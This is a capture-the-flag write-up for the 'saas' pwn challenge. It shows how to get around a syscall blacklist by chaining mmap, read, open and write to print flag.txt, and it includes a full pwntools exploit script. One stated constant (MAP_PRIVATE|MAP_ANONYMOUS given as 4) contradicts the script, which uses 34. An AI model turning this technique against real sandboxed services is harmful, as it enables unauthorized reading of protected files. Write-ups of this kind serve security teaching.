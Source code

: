 # [pwn] saas writeup

> You've heard of software as a service, but have you heard of syscall as a service?

In this challenge we have a binary that let us make syscalls with arbitrary parameters; before starting to dig into the code we can make some checks with checksec and with strings.
Checksec's output is:
```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```
So this is not looking good, everything is enabled. Analyzing the binary with strings doesn't reveal nothing really important, so the next step is to execute the binary.

```
$ ./saas 
Welcome to syscall-as-a-service!

Enter rax (decimal): 0
Enter rdi (decimal): 0
Enter rsi (decimal): 0
Enter rdx (decimal): 0
Enter r10 (decimal): 0
Enter r9 (decimal): 0
Enter r8 (decimal): 0
Rax: 0x0
```
We are basically in a while true which lets us make syscalls with arbitrary parameters (and it shows us the return value). The first thing that came into my mind was to try and call execve, but the program will prevent us from calling some blacklisted syscalls (such as execve). The complete list of all the blocked syscall is: 0x3b, 0x39, 0x38, 0x3e, 0x65, 0xc8, 0x142.

## Solution

We cannot use execve, but we can still access many other syscalls. We can assume that this binary is in the same directory in which we have our flag.txt file, so (if this is true) we can try to *open* the file, *read* its contents and *write* them on stdout. In order to do that we can use 3 syscalls (obviously, open, read and write). But there is a little problem, to open a file we need its name, which is a string and which needs to be placed somewhere in the memory of the process, but since there's PIE we have no static addresses for r/w sections that we can possibly modify. After a bit of thinking, we can just allocate our own buffer using mmap, the address will be returned from the syscall, then we will write the string "flag.txt" (null terminated) on it and we can then open the file.

In C, what we want to do is as follow:

```
void* addr = mmap(0, 128, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0);
read(stdin, addr, 9);
int fd = open(addr, O_RDONLY, 0644);
read(fd, addr, 64);
write(stdout, addr, 64);
```

We have access to all this syscalls, we just need to convert our parameters to decimal:
```
PROT_READ|PROT_WRITE = 3
MAP_PRIVATE|MAP_ANONYMOUS = 4
0644 = 420 (0644 is octal)
stdin = 0
stdout = 1
```

## Code
At this point we just need a program that sends everything to the process' stdin, we just need to capture the retval of the mmap (for the address) and the retval of the open (for the file descriptor).
The program is (in python) as follow (in this directory you will find the .py file):
```
from pwn import *

#p = remote("jh2i.com", 50016)

p = gdb.debug("./saas", """
c
""")


#mmap
p.sendline("9")		#rax
p.sendline("0")		#rdi
p.sendline("128")	#rsi
p.sendline("3")		#rdx
p.sendline("34")	#r10
p.sendline("0")		#r9
p.sendline("-1")	#r8

p.recvuntil("Rax: 0x")
addr = str(p.recvuntil("\n")[:-1])[2:-1]
addr = str(int(addr,16))
print("Heap address ="+addr)

#read
p.sendline("0")		#rax
p.sendline("0")		#rdi
p.sendline(addr)	#rsi
p.sendline("9")		#rdx
p.sendline("0")		#r10
p.sendline("0")		#r9
p.sendline("0")		#r8
p.sendline("flag.txt"+'\x00')
p.recvuntil("Rax: 0x")

#open
p.sendline("2")		#rax
p.sendline(addr)	#rdi
p.sendline("0")		#rsi
p.sendline("420")	#rdx
p.sendline("0")		#r10
p.sendline("0")		#r9
p.sendline("0")		#r8

p.recvuntil("Rax: 0x")
fd = str(p.recvuntil("\n")[:-1])[2:-1]
fd = str(int(fd,16))
print("File descriptor ="+fd)

#read
p.sendline("0")		#rax
p.sendline(fd)		#rdi
p.sendline(addr)	#rsi
p.sendline("64")	#rdx
p.sendline("0")		#r10
p.sendline("0")		#r9
p.sendline("0")		#r8
p.recvuntil("Rax: 0x")

#write
p.sendline("1")		#rax
p.sendline("1")		#rdi
p.sendline(addr)	#rsi
p.sendline("64")	#rdx
p.sendline("0")		#r10
p.sendline("0")		#r9
p.sendline("0")		#r8
p.recvuntil("r8 (decimal):")	#we can't read untill "Rax: 0x" because the flag is printed before that happen


p.interactive()
```
